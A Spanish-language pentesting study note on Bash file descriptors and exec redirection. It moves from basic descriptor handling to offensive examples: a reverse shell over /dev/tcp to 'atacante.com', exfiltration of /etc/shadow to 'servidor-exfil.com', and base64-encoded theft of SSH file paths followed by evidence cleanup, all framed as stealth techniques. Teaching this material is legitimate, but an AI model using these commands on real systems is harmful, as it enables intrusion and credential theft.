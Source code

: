 # 🔄 Descriptores de Archivo en Bash: Redirección Avanzada

> [!info] Concepto clave
> Los descriptores de archivo son referencias numéricas a flujos de entrada/salida que permiten manipular y redirigir datos en sistemas Unix/Linux. Son fundamentales para el control preciso de flujos de información en scripts y ataques.

---

## 📋 Tabla de Contenidos
- [Fundamentos de descriptores](#fundamentos-de-descriptores)
- [El comando exec](#el-comando-exec)
- [Operaciones con descriptores](#operaciones-con-descriptores)
- [Casos de uso en ciberseguridad](#casos-de-uso-en-ciberseguridad)
- [Ejemplos prácticos](#ejemplos-prácticos)

---

## 💻 Fundamentos de descriptores

Los sistemas Unix/Linux utilizan descriptores de archivo como abstracción para manejar entrada/salida. Por defecto, existen tres descriptores estándar:

| Descriptor | Nombre | Propósito | Símbolo |
|------------|--------|-----------|---------|
| 0 | STDIN | Entrada estándar | `<` |
| 1 | STDOUT | Salida estándar | `>` |
| 2 | STDERR | Salida de errores | `2>` |

> [!note] Cualquier número mayor a 2 es un descriptor personalizado que podemos crear y manipular según nuestras necesidades.

---

## 🔄 El comando exec

El comando `exec` permite manipular descriptores de archivo directamente desde el shell, lo que facilita operaciones avanzadas de redirección.

```mermaid
graph LR
    A[exec] --> B[Reemplazar shell actual]
    A --> C[Manipular descriptores de archivo]
    C --> D[Abrir]
    C --> E[Modificar]
    C --> F[Cerrar]
    D --> G[Lectura]
    D --> H[Escritura] 
    D --> I[Lectura/Escritura]
```

### Sintaxis básica

```bash
# Formato general
exec descriptor<operador> destino
```

Donde:
- **descriptor**: Número del descriptor de archivo (3, 4, 5...)
- **operador**: Define el modo (`<` para lectura, `>` para escritura, `<>` para ambos)
- **destino**: Archivo o recurso al que se asocia el descriptor

---

## 🛠️ Operaciones con descriptores

### Apertura de descriptores

```bash
# Abrir descriptor 3 para lectura y escritura
exec 3<> nombre_archivo
```

> [!tip] Modos de apertura
> - `<` → Solo lectura
> - `>` → Solo escritura (crea/trunca archivo)
> - `<>` → Lectura y escritura

### Redirección hacia descriptores

```bash
# Enviar salida de un comando al descriptor 3
whoami >&3
```

### Cierre de descriptores

```bash
# Cerrar el descriptor 3
exec 3>&-
```

> [!warning] Importante
> Siempre cierra los descriptores que ya no necesites para evitar fugas de recursos, especialmente en ataques que requieren discreción.

---

## 🔐 Casos de uso en ciberseguridad

Los descriptores de archivo son herramientas poderosas en escenarios de pentesting y ciberseguridad:

1. **Persistencia discreta**:
   - Mantener comunicaciones abiertas con sistemas comprometidos
   - Evitar registros en archivos de log estándar

2. **Túneles de datos**:
   - Crear canales ocultos para exfiltración de información
   - Establecer shells reversas más difíciles de detectar

3. **Manipulación de procesos**:
   - Inyectar comandos en procesos existentes
   - Capturar salida de programas para análisis posterior

4. **Bypass de protecciones**:
   - Eludir restricciones de shell limitadas
   - Sortear filtros de entrada/salida

---

## 💡 Ejemplos prácticos

### Ejemplo 1: Shell persistente con descriptor

```bash
# Crear un descriptor conectado a un socket de red
exec 3<>/dev/tcp/atacante.com/443

# Redirigir entrada/salida al descriptor
exec 0<&3
exec 1>&3
exec 2>&3

# Ejecutar shell usando el canal establecido
bash -i

# Al finalizar, cerrar el descriptor
exec 3>&-
```

> [!example] Explicación
> Este ejemplo crea un canal de comunicación a través del descriptor 3 hacia un servidor remoto en el puerto 443. Luego redirige STDIN, STDOUT y STDERR a este canal, permitiendo una shell interactiva que se comunica a través de la conexión TCP establecida.

### Ejemplo 2: Exfiltración sigilosa de datos

```bash
# Abrir descriptor para archivo sensible
exec 3< /etc/shadow

# Abrir canal de comunicación
exec 4<>/dev/tcp/servidor-exfil.com/8080

# Enviar datos a través del canal
cat <&3 >&4

# Cerrar descriptores
exec 3>&-
exec 4>&-
```

> [!info] Ventaja táctica
> Al usar descriptores de archivo directamente, se evita crear procesos adicionales que podrían ser detectados por herramientas de monitorización de procesos como `ps` o `top`.

### Ejemplo 3: Captura y manipulación de salida

```bash
# Crear archivo temporal para almacenar resultados
touch /tmp/.output

# Abrir descriptor para el archivo
exec 5<> /tmp/.output

# Ejecutar comando y capturar su salida
find /home -name "*.ssh" >&5

# Procesar resultados sin crear nuevos procesos visibles
exec 6< /tmp/.output
while read -u 6 line; do
    # Procesar cada línea
    echo "$line" | base64 >&3  # Enviar codificado al descriptor 3 (atacante)
done

# Limpiar evidencias
exec 5>&-
exec 6>&-
rm /tmp/.output
```

---

## 🧠 Conceptos avanzados

> [!tip] Técnicas avanzadas
> - **Duplicación de descriptores**: `exec 4>&3` (descriptor 4 apunta al mismo destino que 3)
> - **Descriptores en subshells**: `(exec 3>archivo; comando >&3)` (el descriptor solo existe en la subshell)
> - **Redirección bidireccional**: Permite crear canales de comunicación complejos entre procesos

```bash
# Ejemplo de canal bidireccional usando named pipes
mkfifo /tmp/pipe1 /tmp/pipe2
exec 3<>/tmp/pipe1
exec 4<>/tmp/pipe2

# En otra terminal/proceso
exec 5<>/tmp/pipe2
exec 6<>/tmp/pipe1
```

---

> [!warning] Consideraciones de seguridad
> - Los descriptores de archivo persisten hasta que se cierran explícitamente o hasta que termina el proceso
> - En servidores comprometidos, siempre verifica descriptores abiertos con `lsof` como parte del análisis forense
> - Las conexiones establecidas con descriptores pueden permanecer invisibles para herramientas básicas de monitoreo